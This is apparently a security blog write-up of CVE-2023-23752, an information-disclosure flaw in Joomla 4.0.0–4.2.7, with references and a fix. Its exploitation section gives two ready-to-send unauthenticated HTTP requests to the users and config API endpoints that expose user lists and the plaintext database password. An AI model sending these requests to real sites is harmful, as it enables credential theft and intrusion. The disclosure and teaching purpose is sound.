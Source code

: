 +++
author = "kiwiyumi"
date = "2024-02-03"
description = "Information disclosure in Joomla"
title = "Joomla 4.2.7 - Information Disclosure - CVE-2023-23752"
tags = [
    "Web",
    "CVE",
    "CMS",
    "Joomla"
]
+++

<!--more-->

In today's article we're going to look at a vulnerability in a content management system (CMS) called Joomla. The flaw allows an unauthenticated attacker to list all the users in the application and collect system configuration information, such as username and database password.

## Description

The flaw consists of poor validation of access to the endpoints responsible for listing user and database information, being classified as a medium vulnerability by **NIST** (CVSS 3.x), however, in the security advisory issued by Joomla, they define this vulnerability as a potential critical impact.

## Affected versions

The versions affected by the vulnerability are: **4.0.0 <= 4.2.7**.

## Exploiting vulnerabilities

The exploitation of the vulnerability consists of two endpoints, the first being used to collect existing users in the application, while the other consists of system configuration information (database), below are the requests to the affected endpoints and their responses.

- **Collect user information:**

```http
GET /api/index.php/v1/users?public=true HTTP/1.1
Host: {{HOST}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8


```

![](/assets/images/joomla-infomation-disclosure/f0588149-75cb-4d3c-b6f6-0c6f1f781938.png)

- **Collect configuration information:**

```http
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: {{HOST}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8


```

![](/assets/images/joomla-infomation-disclosure/7f91a6f8-2d92-46ae-9bed-9f64bf375db5.png)

Note that it was possible to collect sensitive information and passwords in plain text.

**Obs:** the first endpoint in question brings up all existing users, in my lab I only had the administrator registered.

## How to fix

Update the software to the latest version.

## References

- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://nvd.nist.gov/vuln/detail/CVE-2023-23752